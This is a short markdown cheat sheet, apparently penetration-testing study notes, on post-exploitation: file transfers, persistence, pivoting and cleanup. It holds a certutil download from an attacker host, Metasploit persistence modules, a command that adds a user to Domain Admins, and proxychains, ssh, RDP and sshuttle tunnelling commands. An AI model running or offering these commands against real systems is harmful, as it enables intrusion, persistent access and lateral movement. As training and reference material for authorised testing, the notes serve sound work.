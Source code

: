 ## Post Exploitation - Review

### 🚩 File transfers
* python -m SimpleHTTPServer 80
* python -m pyftpdlib 21 (attacker ip)
*   ftp attackerip (windows machines)
* Certutil.exe -urlcache -f http://ip.address/bad.txt output.txt
* wget (linux machines)
* metasploit

---

### 🚩 Maintaining access

#### Persistence Scripts (Metasploit)
* run persistence -h
* exploit/windows/local/persistence
* exploit/windows/local/registry_persistence

#### Scheduled Tasks
* run scheduleme
* run schtaskabuse

#### Add a user
* net user FakeUser Password1 /add
* net group "Domain Admins" hawkeye /ADD /DOMAIN 

---

### 🚩 Pivoting - Using a compromised device as a conduit to reach new locations. For situations when a secondary device is only reachable through a compromised device, or for more covert activities (more in the realms of Red Teaming).

#### 🔴 Proxychains: Bind port, Proxychain, Proxy  
Scenario:
1. device 1 has access to device 2 which is unreachable from our attacker machine device 0  
2. proxychain and bind port is setup on device 0  
3. proxy tunnel on devive 1  
4. target is device 2

check our proxychain config file and edit the bind port if required  

         cat /etc/proxychains4.conf

now we ssh into device 1, -f backgrounds the ssh, -N do not execute remote commands only port forward, -D to bind on port, -i pivot the ssh private key file combined with the username.

         ssh -f -N -D 9050 -i pivot root@10.10.155.5

now we can run commands on device 2

         proxychains nmap -p88 10.10.10.255 (syn scan)
         proxychains nmap -p88 10.10.10.255 sT (tcp scan, could be better)

#### 🔴 Xfreerdp: RDP pivot into a device by placing proxychains infront of the normal syntax
   
      proxychains xfreerdp /u:administrator /p:'Password1' /v:10.10.10.225

#### 🔴 Sshuttle

      sshuttle -r user@ip.of.device1 ip.of.target/24 --ssh-cmd "ssh -i pivot"
      
keeping the sshuttle terminal live, move to new terminal. Aslong as the sshuttle terminal is up we can execute commands in the new terminal without having to type 'proxychains' infront of every command if using proxychain.

#### 🔴 Chisel
another tool used for pivoting and tunneling. 

---

### Cleaning up  
Make sure the system/network is what it was prior to engagement.
* remove executables, scripts and files
* remove malware, rootkits, and added users accounts
* set settings back to original configurations

